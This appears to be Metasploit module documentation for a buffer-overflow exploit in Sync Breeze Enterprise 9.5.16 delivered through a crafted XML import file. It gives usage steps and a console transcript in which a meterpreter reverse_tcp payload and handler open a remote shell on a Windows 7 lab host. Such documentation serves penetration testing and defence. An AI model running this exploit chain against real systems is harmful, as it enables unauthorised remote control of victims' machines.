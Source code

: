 This module exploits a buffer overflow in Sync Breeze Enterprise 9.5.16 by using the import command option to import a specially crafted xml file.

## Vulnerable Application

This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/e5c42cce3304c323776e4785e8fb4685-syncbreezeent_setup_v9.5.16.exe).

## Verification Steps

1. Start msfconsole
2. Do: `exploit/windows/fileformat/syncbreeze_xml`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Example
```
msf > use exploit/windows/fileformat/syncbreeze_xml
msf exploit(windows/fileformat/syncbreeze_xml) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/syncbreeze_xml) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/fileformat/syncbreeze_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /root/.msf4/local/msf.xml
msf exploit(windows/fileformat/syncbreeze_xml) > use exploit/multi/handler 
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.216.5:4444 
[*] Sending stage (179779 bytes) to 192.168.216.137
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.137:49830) at 2018-01-15 15:32:02 -0500

meterpreter > sysinfo 
Computer        : IE11WIN7
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
